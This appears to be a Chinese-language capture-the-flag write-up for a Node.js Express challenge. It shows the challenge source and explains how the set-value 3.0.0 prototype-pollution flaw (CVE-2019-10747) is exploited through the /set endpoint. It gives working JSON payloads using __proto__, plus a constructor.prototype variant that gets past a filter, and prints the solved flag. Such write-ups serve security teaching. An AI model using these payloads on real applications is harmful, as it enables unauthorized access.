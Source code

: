 ## node tricks

本题目使用node js的express框架搭建，拿到源码后重点关注几个部分：

* app.js

  关键代码如下，这里使用routes/index.js进行路由：

  ```javascript
  ...
  var indexRouter = require('./routes/index');
  ...
  app.use('/', indexRouter);
  ...
  ```

* routes/index.js

  ```javascript
  var express = require('express');
  var set = require('set-value');
  var crypto = require("crypto");
  var router = express.Router();
  var config = require('../config.js');
  
  function sha1(s) {
    return crypto.createHash("sha1")
        .update(s)
        .digest("hex");
  }
  
  router.get('/', function(req, res) {
    // res.render('index', {msg : "Welcome to NodeJS Lab!"});
    res.send("Welcome to NodeJS Lab!");
  });
  
  router.get("/begin", function (req, res) {
    req.session.data = {
      name : "guest"
    }
    req.session.hidden = {}
    // res.render("index", {msg : "Let's begin!"});
    res.send("Let's begin!");
  });
  
  router.post("/set", function (req, res) {
    if(req.session.data === undefined){
      res.redirect('/begin');
    } else {
    	input = req.body;
    	for(let i in input)
    	{
  	    set(req.session.data, i, input[i]);
    	}
    	// res.render("index", {msg : "Set variable success!"});
    	res.send("Set variable success!");
    }
  });
  
  router.get("/flag", function (req, res) {
    const salt = "or4nge";
    
    var hidden = req.session.hidden;
  
    if (hidden === undefined || hidden.x === undefined || hidden.y === undefined || hidden.x.length !== hidden.y.length) {
    	  // res.render("index", {msg : "Bad input"});
    	  res.send("Bad variable");
        return;
    }
  
    if (hidden.x !== hidden.y && sha1(salt + hidden.x) === sha1(salt + hidden.y)) {
    	  // res.render("index", {msg : config.flag});
    	  res.send(config.flag)
        return;
    }
  
    // res.render("index", {msg : "Access denied"});
    res.send("Access denied");
  });
  
  module.exports = router;
  
  ```

  * /begin会初始化req.session.data={name:"guest"}，req.session.hidden={}
  * /set会接收用户输入的键值对，赋值给req.session.data
  * /flag会获取req.session.hidden.x和req.session.hidden.y，如果两变量强类型不等且长度相同、sha1值相等，则返回flag

* package.json

  ```json
  {
    "name": "app",
    "version": "0.0.0",
    "private": true,
    "scripts": {
      "start": "node ./bin/www",
      "devstart": "nodemon ./bin/www"
    },
    "dependencies": {
      "cookie-parser": "~1.4.4",
      "debug": "~2.6.9",
      "express": "~4.16.1",
      "express-session": "^1.17.1",
      "http-errors": "~1.6.3",
      "morgan": "~1.9.1",
      "pug": "2.0.0-beta11",
      "set-value": "3.0.0"
    },
    "devDependencies": {
      "nodemon": "^2.0.7"
    }
  }
  ```

仔细研究可以发现源码中使用的set-value模块很可疑，且package.json限定set-value只能是3.0.0版本。查询后可知该模块用于设置嵌套属性，而3.0.0版本中存在原型链污染漏洞（CVE-2019-10747），因此本题解法就比较清晰了。

通过原型链污染req.session.data的原型，即可使/flag获取req.session.hidden.x和req.session.hidden.y时获取到污染的变量值，然后只需要让x=[0]，y="0"，即可满足x与y强类型不等(x !== y)，长度均为1，sha1值均为sha1(salt + "0")，从而获得flag。

详细步骤如下：

GET 访问 /begin，获得cookie

![image-20210510230453544](img/image-20210510230453544.png)

POST 向/set 传json，设置变量

```
{"__proto__.x":[0],"__proto__.y":"0"}
```

![image-20210510230546704](img/image-20210510230546704.png)

访问/flag获得flag

![image-20210510230648085](img/image-20210510230648085.png)

实际上如果\_\_proto\_\_被过滤也是可以进行原型链污染的，如下图所示，\_\_proto\_\_的全称为points to constructor.prototype，它指向的是构造函数的原型，因此我们也可以使用constructor.prototype来代替\_\_proto\_\_。

![20200204170938-121dfaec-472e-1](img/t01fe584fd8c87e7c9b.png)

设置变量，一把梭获得flag~

```
{"constructor.prototype.x":[0],"constructor.prototype.y":"0"}
```

![image-20210523223127259](img/image-20210523223127259.png)

![image-20210523223347957](img/image-20210523223347957.png)

### flag

flag{4571225a-f9ce-46b7-a4e5-58a92bcfd13c}